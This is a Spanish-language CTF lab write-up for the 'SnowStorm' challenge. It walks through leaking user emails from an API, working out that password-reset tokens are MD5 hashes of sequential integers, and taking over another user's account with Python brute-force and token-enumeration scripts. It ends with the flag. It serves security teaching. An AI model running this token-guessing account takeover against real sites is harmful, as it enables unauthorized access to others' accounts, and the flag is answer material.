

# M1st1fy 

Este documento fue confeccionado por [`M1st1fy`](https://github.com/m1st1fy), un equipo concebido para la realización de CTFs :-)

> Nota: Pueden encontrar los otros documentos del HackLab2024 [aquí](https://github.com/M1st1fy/HackLab2024)
## Integrantes

| Integrante        | Facultad                                        |
| :---------------- | :---------------------------------------------- |
| Tomás N. Raspa    | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |
| Agustín M. Blanco | [U.T.N. F.R.B.A.](https://www.frba.utn.edu.ar/) |

## Índice

1. [SnowStorm](#SnowStorm)
	1. [Primera aproximación](#Primera_aproximación)
	2. [Observando en profundidad](#Observando_en_profundidad)
		1. [La API](#La_API)
		2. [El token](#El_token)
			1. [Otra forma](#Otra_forma)
	3. [El ataque](#El_ataque)

---
## SnowStorm

>El usuario "Juan Perez" te está molestando en la red social SnowStorm tirando indirectas. Cambiá su nombre a "Soy un idiota" y obtendrás el hash. 
>Tu usuario es carlos.ruiz@hacklab.com y la clave es: C4rl0s!Ru1z2024$

### Primera aproximación

Al ingresar al sistema, nos encontramos con un portal de inicio de sesión.


Si ingresamos con las credenciales provistas por el enunciado, tal y como nos fue anticipado, nos encontramos con un blog en el que parecería los usuarios pueden compartir sus ideas a través de comentarios.


Jugando un poco con el sistema vemos que a priori podemos tanto crear nuevas publicaciones como hacer comentarios sobre las publicaciones de los demás.


También vemos que es posible modificar el *Nombre*, *Apellido* y *Pais* del usuario actual.


Existen dos funcionalidades más del sistema que sólo son accesibles antes de iniciar sesión. El *¿Olvidaste tu contraseña?* y el *Crear una cuenta* .


Intentemos registrarnos!


Al finalizar el registro, somos redirigidos al blog.


Ahora que ya tenemos una cuenta cuya dirección de email controlamos, podemos probar la funcionalidad de recupero de clave. Para ello debemos cerrar nuevamente la sesión y presionar en *¿Olvidaste tu contraseña?*

Al hacerlo, el sistema nos lleva a una pantalla solicitando el email con el que fue registrada la cuenta. 


Al completarlo con los datos de la cuenta que acabamos de crear, el sistema nos dice que el enlace de recuperación fue enviado y si revisamos la casilla de correo ingresada veremos que es cierto, recibimos un email de recuperación. 


Tal y como se puede observar, el email contiene un enlace de recuperación con el siguiente formato `http://<dominio>/recovery?t=<token>`, recordemos esta información ya que nos podría resultar útil más adelante!

Para concluir el recupero de clave, si ingresamos al enlace provisto en la dirección de email, somos presentados con una pantalla solicitando que se ingrese la nueva clave.


Si ingresamos una nueva clave y presionamos *Actualizar*, recibimos un mensaje indicando que la clave fue modificada exitosamente. Y, como es de esperar, si intentamos ingresar con la nueva clave, funciona!


### Observando en profundidad

#### La API

Ayudándonos de las [herramientas de desarrollador](https://developer.chrome.com/docs/devtools?hl=es-419) de nuestro navegador, podemos ver las peticiones que se están haciendo al servidor junto con las respuestas que éste nos provee. 

Al recargar la página con las herramientas abiertas, vemos que para construir la página se realizan muchas peticiones diferentes. La primera de ellas, es el [GET](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/GET) de la página per sé. Sin embargo, esta petición sólo devolvió la estructura general de la página pero no así las publicaciones de los usuarios.
Para obtener las publicaciones, el sistema realiza una segunda petición [GET](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/GET) a `/api/posts`, que nos devuelve un [JSON](https://es.wikipedia.org/wiki/JSON) con la información.


Viendo un poco más en detalle los datos devueltos podemos obtener información sobre los demás usuarios de la plataforma.
```json
[
    {
        "id": 8,
        "author": "Juan P\u00e9rez",
        "author_email": "juan.perez@hacklab.com",
        "date": "2024-10-08 17:00:00",
        "text": "Hay determinadas personas que no piensan..... ",
        "comments": []
    },
    {
        "id": 7,
        "author": "Juan P\u00e9rez",
        "author_email": "juan.perez@hacklab.com",
        "date": "2024-10-07 09:45:00",
        "text": "necesito estar al aire libre o voy a matar a alguien...",
        "comments": []
    },
    {
        "id": 6,
        "author": "Laura Mart\u00ednez",
        "author_email": "laura.martinez@hacklab.com",
        "date": "2024-10-06 11:15:00",
        "text": "Trabajando en un nuevo proyecto.",
        "comments": []
    },
    {
        "id": 5,
        "author": "Pedro S\u00e1nchez",
        "author_email": "pedro.sanchez@hacklab.com",
        "date": "2024-10-05 20:30:00",
        "text": "Es un d\u00eda perfecto para descansar.",
        "comments": []
    },
    {
        "id": 4,
        "author": "Ana L\u00f3pez",
        "author_email": "ana.lopez@hacklab.com",
        "date": "2024-10-04 08:00:00",
        "text": "Comenzando el d\u00eda con energ\u00eda.",
        "comments": []
    },
    {
        "id": 3,
        "author": "Carlos Ruiz",
        "author_email": "carlos.ruiz@hacklab.com",
        "date": "2024-10-03 18:45:00",
        "text": "Una gran tarde con amigos.",
        "comments": []
    },
    {
        "id": 2,
        "author": "Mar\u00eda G\u00f3mez",
        "author_email": "maria.gomez@hacklab.com",
        "date": "2024-10-02 15:30:00",
        "text": "Disfrutando el d\u00eda soleado.",
        "comments": [
            {
                "author": "Gabriela Silva",
                "date": "2024-10-02 15:30:00",
                "text": "Me gustar\u00eda estar ah\u00ed."
            }
        ]
    },
    {
        "id": 1,
        "author": "Juan P\u00e9rez",
        "author_email": "juan.perez@hacklab.com",
        "date": "2024-10-01 12:00:00",
        "text": "No quiero insustarte pero no me dejas otra opci\u00f3n....",
        "comments": [
            {
                "author": "Juan P\u00e9rez",
                "date": "2024-10-01 12:00:00",
                "text": "De verdad, creen que esa persona lo hizo????"
            },
            {
                "author": "Lucas Vega",
                "date": "2024-10-01 12:00:00",
                "text": "Me encant\u00f3."
            }
        ]
    }
]
```

Esto nos resulta útil para obtener el *email* de *Juan Perez*, a quien le tenemos que modificar el nombre.

#### El token

Nuestro objetivo es poder acceder a la cuenta de *Juan Perez* para poder actualizar su nombre a *Soy un idiota*. Lamentablemente no conocemos su contraseña ni tenemos acceso a su casilla de email, pero podemos intentar atacar el mecanismo de modificación de claves para aún sin acceso a sus datos, tomar control de su perfil. 

En [primera aproximación](#Primera_aproximación) habíamos descubierto que las URL de recupero de clave seguían el formato `http://<dominio>/recovery?t=<token>`. Si pudiéramos descubrir cómo está generando ese token el Back-End podríamos recuperar las cuentas de otros usuarios sin tener acceso a sus direcciones de email. Centrémonos entonces el descubrir qué hay detrás de ese *misterioso* token.

Teniendo una muestra de 1 es muy difícil lograr deducir con algún grado de certeza qué hay detrás del token, por ello, con la intención de entender qué hay detrás de ellos, lo primero que haremos será generar muchas solicitudes de recupero de clave a nuestra cuenta, así tendremos muchos tokens para jugar. 

Obtuvimos los siguientes tokens:

|               Token                |      Timestamp      |
| :--------------------------------: | :-----------------: |
| `4a06d868d044c50af0cf9bc82d2fc19f` | 2024-10-27 13:14:15 |
| `6211080fa89981f66b1a0c9d55c61d0f` | 2024-10-27 13:45:29 |
| `e58aea67b01fa747687f038dfde066f6` | 2024-10-27 13:45:33 |
| `f516dfb84b9051ed85b89cdc3a8ab7f5` | 2024-10-27 13:45:40 |
| `49c0b9d84c2a16fcaf9d25694fda75e1` | 2024-10-27 13:45:46 |
| `046ddf96c233a273fd390c3d0b1a9aa4` | 2024-10-27 13:45:50 |
| `69dafe8b58066478aea48f3d0f384820` | 2024-10-27 13:45:53 |
| `f3ac63c91272f19ce97c7397825cc15f` | 2024-10-27 13:45:55 |
| `88bfcf02e7f554f9e9ea350b699bc6a7` | 2024-10-27 13:45:57 |
| `db9eeb7e678863649bce209842e0d164` | 2024-10-27 13:46:01 |

Lo primero que notamos es que todos los tokens parecen ser 32 caracteres [hexadecimales](https://es.wikipedia.org/wiki/Sistema_hexadecimal). Esto nos da una fuerte impresión de que el *token* podría ser realmente el [hash](https://es.wikipedia.org/wiki/Funci%C3%B3n_hash) de otra cosa.

Para confirmar esta teoría podemos utilizar una herramienta con capacidad para identificar posibles tipos de hash, como la provista por [hashes.com](https://hashes.com/en/tools/hash_identifier) o, si estamos en un entorno [linux](https://es.wikipedia.org/wiki/GNU/Linux) [hash-identifier](https://www.kali.org/tools/hash-identifier/).
Para dar una explicación que sea útil sin importar el sistema operativo que el lector decida utilizar, en este documento utilizaremos la primera, pero pueden encontrar mucha información sobre la segunda en internet. 

Ingresamos los tokens devueltos por el sistema en la página separados por un salto de línea y presionamos en *SUBMIT & IDENTIFY*.


Tal y como lo sospechábamos, la página nos indica que todos los tokens ingresados muy posiblemente sean un [hash MD5](https://es.wikipedia.org/wiki/MD5).


Sabiendo esto, sólo nos faltaría saber qué es lo que están hasheando para obtener los token. Lo primero que se nos viene a la mente, es que el token sea en realidad el hash del [EPOCH Time](https://es.wikipedia.org/wiki/Tiempo_Unix) de cuando se solicitó la recuperación de clave. 

Con la intención de verificar esta teoría, ayudándonos de la página [EpochConverter](https://www.epochconverter.com/), obtenemos los *timestamp* asociados a cada token generado.

|               Token                |      Timestamp      | Epoch Time |
| :--------------------------------: | :-----------------: | :--------: |
| `4a06d868d044c50af0cf9bc82d2fc19f` | 2024-10-27 13:14:15 | 1730045655 |
| `6211080fa89981f66b1a0c9d55c61d0f` | 2024-10-27 13:45:29 | 1730047529 |
| `e58aea67b01fa747687f038dfde066f6` | 2024-10-27 13:45:33 | 1730047533 |
| `f516dfb84b9051ed85b89cdc3a8ab7f5` | 2024-10-27 13:45:40 | 1730047540 |
| `49c0b9d84c2a16fcaf9d25694fda75e1` | 2024-10-27 13:45:46 | 1730047546 |
| `046ddf96c233a273fd390c3d0b1a9aa4` | 2024-10-27 13:45:50 | 1730047550 |
| `69dafe8b58066478aea48f3d0f384820` | 2024-10-27 13:45:53 | 1730047553 |
| `f3ac63c91272f19ce97c7397825cc15f` | 2024-10-27 13:45:55 | 1730047555 |
| `88bfcf02e7f554f9e9ea350b699bc6a7` | 2024-10-27 13:45:57 | 1730047557 |
| `db9eeb7e678863649bce209842e0d164` | 2024-10-27 13:46:01 | 1730047529 |

Una vez asociados los tokens con su respectivo *Epoch Time*, podemos construir un *script* en *Python* que nos ayude a verificar nuestra teoría. 

>Nota: Debido a las complejidades asociadas con las zonas horarias, para evitar falsos negativos, decidimos que el *script* pruebe suficientes *timestamps* para cubrir cualquier diferencia en la configuración entre las [zonas horarias](https://es.wikipedia.org/wiki/Huso_horario) GMT+0 ([UTC](https://es.wikipedia.org/wiki/Tiempo_universal_coordinado)) y GMT-3 (Argentina)

```python
import hashlib
import sys

def buscarCoincidencias(hash, timestampBase):
    for i in range(timestampBase-15000,timestampBase+15000):
        if i%1000 == 0:
            print(f"[x] Probando: {i}")

        if hashlib.md5(str(i).encode()).hexdigest() == hash:
            print(f"[!!!] Encontrado! El valor asociado a [{hash}] es {i}")

if __name__ == '__main__':
    buscarCoincidencias(sys.argv[1], int(sys.argv[2]))
```

Sin embargo, tras probar con los diferentes hashes, no encontramos ninguna coincidencia. 

Otra posibilidad es que el *token* sea en realidad el hash de un *id* en la base de datos, si modificamos el *script* anterior para probar números consecutivos a partir del 1.

``` python
import hashlib
import sys

def probarIds(hash):
    for i in range(0, 5000):
        if i%1000 == 0:
            print(f"[x] Probando: {i}")

        if hashlib.md5(str(i).encode()).hexdigest() == hash:
            print(f"[!!!] Encontrado! El valor asociado a [{hash}] es {i}")

if __name__ == '__main__':
    probarIds(sys.argv[1])
```

Al ejecutarlo con el primer *token* recibido, obtenemos el siguiente resultado:

``` sh
[x] Probando: 0
[x] Probando: 1000
[x] Probando: 2000
[!!!] Encontrado! El valor asociado a [4a06d868d044c50af0cf9bc82d2fc19f] es 2424
[x] Probando: 3000
[x] Probando: 4000
```

El *script* descubrió que el *token* es en realidad el hash MD5 del número `2424`! Si repetimos la ejecución con los demás *tokens* veremos que todos los tokens son en realidad hashes de lo que parecerían ser números aledaños. 

|               Token                |      Timestamp      | Epoch Time | ==Resultado CrackStation== |
| :--------------------------------: | :-----------------: | :--------: | :------------------------: |
| `4a06d868d044c50af0cf9bc82d2fc19f` | 2024-10-27 13:14:15 | 1730045655 |          ==2424==          |
| `6211080fa89981f66b1a0c9d55c61d0f` | 2024-10-27 13:45:29 | 1730047529 |          ==2307==          |
| `e58aea67b01fa747687f038dfde066f6` | 2024-10-27 13:45:33 | 1730047533 |          ==2308==          |
| `f516dfb84b9051ed85b89cdc3a8ab7f5` | 2024-10-27 13:45:40 | 1730047540 |          ==2309==          |
| `49c0b9d84c2a16fcaf9d25694fda75e1` | 2024-10-27 13:45:46 | 1730047546 |          ==2310==          |
| `046ddf96c233a273fd390c3d0b1a9aa4` | 2024-10-27 13:45:50 | 1730047550 |          ==2311==          |
| `69dafe8b58066478aea48f3d0f384820` | 2024-10-27 13:45:53 | 1730047553 |          ==2312==          |
| `f3ac63c91272f19ce97c7397825cc15f` | 2024-10-27 13:45:55 | 1730047555 |          ==2313==          |
| `88bfcf02e7f554f9e9ea350b699bc6a7` | 2024-10-27 13:45:57 | 1730047557 |          ==2315==          |
| `db9eeb7e678863649bce209842e0d164` | 2024-10-27 13:46:01 | 1730047529 |          ==2314==          |
|                                    |                     |            |                            |

##### Otra forma

Por tratarse de un tipo de hash tan popular, existe otra opción, las [Rainbow Tables](https://en.wikipedia.org/wiki/Rainbow_table). Éstas no son más que una base de datos gigante de hashes precalculados con las entradas más comunes. Por ello, si lo que están utilizando para generar los tokens es simple, existe una alta posibilidad de que la respuesta a qué hay detras de esos tokens ya haya sido precalculada por alguna página de tablas. 

Una página muy conocida para esto es [CrackStation](https://crackstation.net/). Veamos si es capaz de decirnos qué hay detrás de nuestros tokens. 

Para ello, al igual que en [hashes.com](https://hashes.com/en/tools/hash_identifier), debemos copiar los hashes separados por un salto de línea, luego completar un captcha y presionar en *Crack Hashes*



Eureka! Todos los tokens fueron encontrados, y parecen ser números consecutivos!!


|               Token                |      Timestamp      | Epoch Time | ==Resultado CrackStation== |
| :--------------------------------: | :-----------------: | :--------: | :------------------------: |
| `4a06d868d044c50af0cf9bc82d2fc19f` | 2024-10-27 13:14:15 | 1730045655 |          ==2424==          |
| `6211080fa89981f66b1a0c9d55c61d0f` | 2024-10-27 13:45:29 | 1730047529 |          ==2307==          |
| `e58aea67b01fa747687f038dfde066f6` | 2024-10-27 13:45:33 | 1730047533 |          ==2308==          |
| `f516dfb84b9051ed85b89cdc3a8ab7f5` | 2024-10-27 13:45:40 | 1730047540 |          ==2309==          |
| `49c0b9d84c2a16fcaf9d25694fda75e1` | 2024-10-27 13:45:46 | 1730047546 |          ==2310==          |
| `046ddf96c233a273fd390c3d0b1a9aa4` | 2024-10-27 13:45:50 | 1730047550 |          ==2311==          |
| `69dafe8b58066478aea48f3d0f384820` | 2024-10-27 13:45:53 | 1730047553 |          ==2312==          |
| `f3ac63c91272f19ce97c7397825cc15f` | 2024-10-27 13:45:55 | 1730047555 |          ==2313==          |
| `88bfcf02e7f554f9e9ea350b699bc6a7` | 2024-10-27 13:45:57 | 1730047557 |          ==2315==          |
| `db9eeb7e678863649bce209842e0d164` | 2024-10-27 13:46:01 | 1730047529 |          ==2314==          |

Si bien seguimos sin conocer el mecanismo por el cual se seleccionan los números para el *token*, parecerían ser números aledaños y relativamente pequeños. Esto nos puede ser de mucha utilidad para manipular los tokens. 

### El ataque

Sabiendo que el *token* de recuperación en realidad no es más que el *hash MD5* de un número relativamente pequeño y que al obtener muchos tokens resultan ser hashes de números aledaños, podemos generar una estrategia de ataque en 6 pasos:

1. Solicitar la recuperación de clave para una cuenta cuyo email controlemos
2. Solicitar la recuperación de clave para la cuenta de la víctima
3. Buscar el valor que produjo nuestro token
4. Generar todos los hashes de números aledaños a nuestro token
5. Verificar cuales de esos hashes producen tokens válidos en el sistema
6. Modificar la clave de esos hashes por una que conozcamos

Siguiendo la estrategia planteada, lo primero que debemos hacer es generar un token para una cuenta que controlemos.


El token recibido fue `c65d7bd70fe3e5e3a2f3de681edc193d`, que según [CrackStation](https://crackstation.net/) pertenece al número `2426`.

El segundo paso es generar un token para la cuenta de la víctima, en este caso *Juan Perez*. Gracias a la información obtenida durante la etapa *[observando en profundidad](#La_API)*, sabemos que el email de nuestra víctima es `juan.perez@hacklab.com`.

Le generamos un token de recuperación.


Para generar y verificar los hashes aledaños a nuestro token y verificarlo, utilizamos un *script* en python.

``` python
import hashlib
import requests
import sys
from concurrent.futures import ThreadPoolExecutor

RANGO = 200

def probarToken(dominio, numero):
    token =  hashlib.md5(str(numero).encode()).hexdigest()
    response = requests.get(f"http://{dominio}/recovery?t={token}")
    if "¿Olvidaste tu contraseña?" not in response.text:
        print(f"[X] Encontrado. N: {numero}. Token:{token}")

if __name__ == '__main__':
    posiblesNumeros = {x for x in range(int(sys.argv[2])-RANGO,int(sys.argv[2])+RANGO)} - {int(sys.argv[2])}
    with ThreadPoolExecutor(max_workers=100) as executor:
        executor.map(lambda x: probarToken(sys.argv[1], x), posiblesNumeros)
```

>Nota: Se debe ejecutar con el siguiente formato: `python script.py chl-xxxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx-snow-storm.softwareseguro.com.ar <número obtenido del hash>`, completando con la url de su instancia y el número que obtuvieron de crackstation en el paso anterior.

Tras ejecutar el script obtenemos el siguiente resultado.

``` sh
[X] Encontrado. N: 2425. Token:f83630579d055dc5843ae693e7cdafe0
[X] Encontrado. N: 2424. Token:4a06d868d044c50af0cf9bc82d2fc19f
[X] Encontrado. N: 2428. Token:cc0991344c3d760ae42259064406bae1
[X] Encontrado. N: 2427. Token:2aaaddf27344ee54058548dc081c6541
```

Para finalizar el ataque sólo falta ingrsar al sistema con los tokens obtenidos y modificar las claves por una que conozcamos. En este punto nos va a ser de utilidad recordar el formato que habíamos descubierto para las url de recuperación: `http://<dominio>/recovery?t=<token>`


Una vez modificadas todas las claves, intentamos ingresar al usuario de *Juan Perez* utilizando su email, `juan.perez@hacklab.com`, y la nueva contraseña que acabamos de ingresar.


Et Voilá, hemos conseguido acceso a la cuenta del fastidioso *Juan Perez*!

Para completar el desafío sólo resta actualizar su nombre de perfil a *"Soy un Idiota"*. Para ello, ingrsaremos en *Opciones*→*Perfil*.


Al ingresar, debemos completar los campos y presionar actualizar. Luego, el sistema nos indica que el perfile fue *Actualizado con éxito*.


Una vez hecho esto, el laboratorio queda finalizado. Para conseguir la bandera sólo hace falta volver al inicio!


>Flag: `17968af07cf621117b36cfbc35b51361`
